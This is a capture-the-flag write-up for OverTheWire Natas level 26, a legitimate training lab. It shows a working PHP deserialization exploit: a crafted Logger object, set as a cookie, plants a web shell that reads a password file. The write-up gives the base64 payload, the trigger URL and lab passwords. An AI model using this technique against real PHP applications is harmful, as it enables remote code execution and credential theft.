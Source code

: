# Natas CTF Solutions  

## Natas Level 26  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit **PHP object deserialization** to execute a reverse shell and read the password.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas26.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas26`  
- **Password:** Use the password from Natas Level 25:  
```
cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
```  

![Home_Page](https://github.com/user-attachments/assets/0c2a97a5-8a67-4cca-83ab-b80e561a1421)

---

### **Step 3: Analyze the Source Code**  
Key part of the code:  
```php
$drawing = unserialize(base64_decode($_COOKIE["drawing"]));
```

![image](https://github.com/user-attachments/assets/e0699b14-b7f0-4362-80d2-772b3c6b84e8)
![image](https://github.com/user-attachments/assets/1b71caba-4d69-46c8-bd61-1155f93951f2)

### **Understanding the Vulnerability**  
- The code uses **unserialize()** on user-controlled input (`$_COOKIE["drawing"]`), which introduces an **object deserialization vulnerability**.  
- We can craft a malicious object to execute arbitrary PHP code.  

---

### **Step 4: Create Malicious PHP Code**  
Create a PHP file (`natas26_payload.php`) with the following code:  

```php
<?php
class Logger{
    private $logFile;
    private $exitMsg;
    
    function __construct(){
        $this->exitMsg = "<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";
        $this->logFile = "/var/www/natas/natas26/img/natas26_d6hk7adceeg57dd55q9p9h37ch.php";
    }
}

$logger = new Logger();
echo base64_encode(serialize($logger));
?>
```

---

### **Step 5: Generate Payload**  
Run the PHP code to generate the payload:  
```bash
php natas26_payload.php
```

✅ Example Output:  
```
Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo2NToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbmF0YXMyNl9kNmhrN2FkY2VlZzU3ZGQ1NXE5cDloMzdjaC5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=
```

---

### **Step 6: Set Payload in Cookie**  
1. Open **Developer Tools** in your browser.  
2. Go to **Storage → Cookies** and set:  
   - **Key:** `drawing`  
   - **Value:** `Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo2NToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbmF0YXMyNl9kNmhrN2FkY2VlZzU3ZGQ1NXE5cDloMzdjaC5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=`
3. Refresh the page.  

---

### **Step 7: Execute Payload**  
Open the URL where the log file was created:  
```  
http://natas26.natas.labs.overthewire.org/img/natas26_d6hk7adceeg57dd55q9p9h37ch.php  
```

✅ This will execute the shell command and reveal the password for the next level.  

![Password](https://github.com/user-attachments/assets/4901c651-bb25-42d4-986c-b936a250af7b)

---

### **Step 8: Output**  
If successful, the output will reveal the password for the next level:  
```  
The password for natas27 is: u3RRffXjysjgwFU6b9xa23i6prmUsYne  
```

---

### **✅ Password for Natas Level 27**  
```
u3RRffXjysjgwFU6b9xa23i6prmUsYne
```

---

## 💡 **Lessons Learned**  
✔️ **Object Deserialization:** `unserialize()` on user-controlled input can lead to remote code execution (RCE).  
✔️ **Log File Injection:** Arbitrary code can be stored and executed through log files.  
✔️ **PHP Code Execution:** Shell commands can be injected via serialized objects.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![image](https://github.com/user-attachments/assets/e0699b14-b7f0-4362-80d2-772b3c6b84e8)  ![image](https://github.com/user-attachments/assets/1b71caba-4d69-46c8-bd61-1155f93951f2) |  
| Step 7 – Found Password | ![Password](https://github.com/user-attachments/assets/4901c651-bb25-42d4-986c-b936a250af7b) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 27**:  
👉 [http://natas27.natas.labs.overthewire.org](http://natas27.natas.labs.overthewire.org)  

---

